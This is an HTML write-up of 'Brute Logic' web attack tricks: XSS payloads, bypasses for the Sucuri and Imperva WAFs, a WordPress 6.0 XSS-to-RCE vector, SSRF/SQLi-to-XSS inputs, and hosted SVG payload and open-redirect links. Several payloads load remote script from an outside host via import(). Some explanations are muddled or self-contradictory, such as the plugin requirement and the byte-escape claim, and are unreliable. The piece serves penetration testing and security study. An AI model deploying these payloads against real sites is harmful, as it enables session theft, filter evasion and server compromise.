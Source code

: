 <h1>Brute Logic Tricks: Advanced Techniques in Web Security Exploitation</h1><br />
The following write-up highlights advanced web exploitation techniques focusing on XSS (Cross-Site Scripting) vulnerabilities, WAF (Web Application Firewall) bypasses, and SSRF (Server-Side Request Forgery) scenarios. These methods are tailored for skilled penetration testers and security researchers, offering a deeper understanding of how to trick filters and evade detection in web applications.
<br />
<h3>1. Escaping Filters Using Byte Bundles</h3>
<b>Concept:</b> To bypass filters that escape specific characters such as single quotes (') when performing web attacks, particularly XSS, one can leverage bytes in the range of %A1 to %FE. These byte ranges can be combined with a single quote to outsmart the filter mechanism.
<br />
<b>Explanation:</b> In web security, many systems sanitize or escape certain characters like %27 (which is the ASCII encoding for ') to prevent malicious injections. However, some filtering mechanisms do not account for all possible byte combinations. By using a byte from %A1 to %FE, you can evade certain character escape sequences and trick the filter into allowing the injection. This is particularly useful when performing brute-force logic attacks or exploring other injection techniques.
<br />
<h3>2. WP 6.0 XSS to RCE Proof of Concept (PoC)</h3>
<b>Concept:</b> In WordPress 6.0, a known exploit allows a user to escalate an XSS (Cross-Site Scripting) vulnerability to RCE (Remote Code Execution). The method involves creating a file (brute.txt) in the /wp-content/plugins folder.

<b>Example:</b>
import('//X55.is/wp')<br />
<b>Requirements:</b><br />

1. An admin user must be logged in with default write permissions.<br >
2. The "Hello Dolly" plugin needs to be activated (or left deactivated as it's a default plugin in WordPress).<br >
3. Explanation: XSS is a client-side code injection attack, but in this case, it can escalate into a server-side RCE if the admin user is logged in. The trick lies in leveraging the default permissions in WordPress installations to inject a malicious file. This kind of exploitation showcases the danger of poorly protected administrative interfaces in web applications.
<br >
<h3>3. Breaking Out of String Values with Quotes</h3><br >
<b>Concept:</b> To escape from any string value where user input is embedded, an injection of single or double quotes is essential unless there are two injection points.<br >

<b>Example:</b>
/alert(1)//\<br >
<b>Explanation:</b> When user inputs are inserted into strings without proper sanitization, attackers can use single or double quotes to close the string and execute arbitrary code. However, if you have two injection points (such as opening and closing quotes around your payload), breaking out of a single point might not be necessary. The goal here is to manipulate the syntax of the code by closing strings prematurely, enabling the injection of additional malicious code.<br >

<h3>4. Anchors as XSS Vectors</h3>
<b>Concept:</b> HTML <a> tags (anchors) are powerful XSS vectors. By exploiting their attributes, one can trigger XSS payloads automatically.<br >

<b>Example 1:</b>
&lt;a href=//X55.is autofocus onfocus=import(href)&gt;<br >
<b>Explanation:</b> Here, the combination of the autofocus and onfocus attributes is used to trigger the import() function when the link is clicked or the element receives focus. This is an advanced method for exploiting XSS, taking advantage of HTML5 attributes. The anchor tag makes it especially dangerous since it is a common element on web pages and can be used to load external scripts without the need for parentheses.<br >

<h3>5. Misplacing Payloads and the "&lt" Symbol</h3>
<b>Concept:</b> If a payload and the "&lt" symbol are misplaced in HTML code, moving elements out of their usual place can still allow the execution of malicious code.<br >

<b>Example:</b>
&lt;Img Src="//X55.is/&gt; "OnError=import(src)//<br >
<b>Explanation:</b> In this example, the payload bypasses filters by misplacing the > symbol. This is a clever trick that can allow a malicious script to run even if the filter expects the payload to be in a specific position. The OnError event is used to trigger the payload when the image fails to load, effectively executing the malicious code.<br >

<h3>6. Securi WAF Bypass</h3>
<b>Concept:</b> Securi WAF (Web Application Firewall) can be bypassed using a crafted HTML form, as shown below.<br >

<b>Example:</b>

data:text/html,&lt;form action=https://brutelogic.com.br/xss-waf.php method=post&gt;&lt<br >
;input type=hidden name=a value="<K Contenteditable Autofocus OnFocusIn= [1].map(alert)>"&gt<br >
&lt;input type=submit value=XSS&gt;&lt/form&gt;
<b>Explanation:</b> This example uses a hidden input field with a crafted payload to bypass the Securi WAF. The Contenteditable attribute allows for user interaction, while Autofocus and OnFocusIn trigger the attack when the form is submitted. Web Application Firewalls typically inspect requests for known patterns, but this creative form submission method can evade such detection mechanisms.
<br >
<h3>7. Impera WAF Bypass</h3>
<b>Concept:</b> By crafting a vector inside an SVG tag, it’s possible to bypass the Impera WAF.<br >
<b>Example:</b>
&lt;svg&gt;&lt;set onbegin=d=document,b='`',d['loca'+'tion']='javascript&colon;aler'+'t'+b+domain+b&gt;
<b></b>Explanation:</b> Here, the vector uses an SVG element with a set attribute that starts executing JavaScript code when the SVG is rendered. The code concatenates parts of the location object and JavaScript's alert() function to trigger an alert. This bypasses the Impera WAF, which likely doesn’t properly inspect or decode these complex constructs inside SVG files.

<h3>8. XSS Vulnerability from SSRF or SQLi Scenarios</h3>
<b>Concept:</b> Cross-Site Scripting (XSS) can emerge from SSRF (Server-Side Request Forgery) or SQL injection scenarios if improperly handled.<br >

<b>SSRF (curl-based) Example:</b>
?url=https://blablablabla-site.com/poc.svg
<b>SSRF (PHP file_get_contents) Example:</b>
?url=data:,<svg/onload=alert(1)>
<b>SQLi (error-based) Example:</b>
?id='<svg/onload=alert(1)><br >
<b>Explanation:</b> In these cases, XSS occurs because input parameters are not sanitized, allowing attackers to inject malicious scripts into server responses. SSRF exploits can be leveraged by providing URLs that return SVG files containing scripts, while SQLi can inject scripts directly into database queries, resulting in the execution of malicious code when the error message or query result is rendered.
<br >
<h3>9. Brute SVG Collection</h3>
Brute Logic offers a collection of SVG files, each serving different purposes in exploiting web vulnerabilities.<br >

XSS (no image)<br >

URL: https://brutelogic.com.br/poc.svg<br >
XSS (valid image)<br >

URL: https://brutelogic.com.br/brute.svg<br >
Redirect (default)<br >

URL: https://brutelogic.com.br/redir.svg<br >
Redirect (custom)<br >

URL: https://brutelogic.com.br/redir.svg?url=//X55.is<br >
Redirect (custom + warning)<br >

URL: https://brutelogic.com.br/redir.svg?url=//X55.is&w=1<br >
<b>Explanation:</b> This collection provides pre-built SVG files that trigger XSS or redirect behavior when accessed. The SVG format is commonly used for image rendering, but attackers can insert scripts into these files, making them a vector for XSS attacks. The redirect files can be customized to send users to any malicious site, with optional warning messages to obscure the true intent of the redirect.
<br >
<h3>Conclusion</h3>
The above techniques represent advanced strategies used by security researchers to test, bypass, and exploit web vulnerabilities. These methods emphasize the need for rigorous input validation, secure configuration, and proper use of web application firewalls to protect against common attack vectors like XSS, SSRF, and SQLi. As web security continues to evolve, so do the methods used by attackers, making it crucial to stay informed about these cutting-edge techniques.<br >

